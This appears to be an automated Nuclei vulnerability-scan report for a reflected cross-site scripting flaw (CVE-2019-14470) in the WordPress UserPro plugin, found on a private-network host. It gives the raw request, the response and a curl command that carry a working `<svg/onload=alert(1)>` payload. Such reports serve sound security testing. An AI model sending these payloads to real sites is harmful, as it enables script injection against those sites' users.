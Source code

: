 ### WordPress Plugin UserPro 4.9.32 - Reflected Cross-Site Scripting (XSS) (CVE-2019-14470) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2019-14470**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/userpro/lib/instagram/vendor/cosenary/instagram/example/success.php?error=&error_description=%3Csvg/onload=alert(1)%3E

**Timestamp**: Wed Jun 8 20:22:26 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin UserPro 4.9.32 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2019, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | cosenary Instagram-PHP-API (aka Instagram PHP API V2), as used in the UserPro plugin through 4.9.32 for WordPress, has XSS via the example/success.php error_description parameter. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2019-14470](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-14470) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/userpro/lib/instagram/vendor/cosenary/instagram/example/success.php?error=&error_description=%3Csvg/onload=alert(1)%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 275
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/userpro/lib/instagram/vendor/cosenary/instagram/example/success.php?error=&error_description=<svg/onload=alert(1)></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/9815
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-14470
- http://packetstormsecurity.com/files/154206/wordpress-userpro-4.9.32-cross-site-scripting.html
- https://wpvulndb.com/vulnerabilities/9815

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/userpro/lib/instagram/vendor/cosenary/instagram/example/success.php?error=&error_description=%3Csvg/onload=alert(1)%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)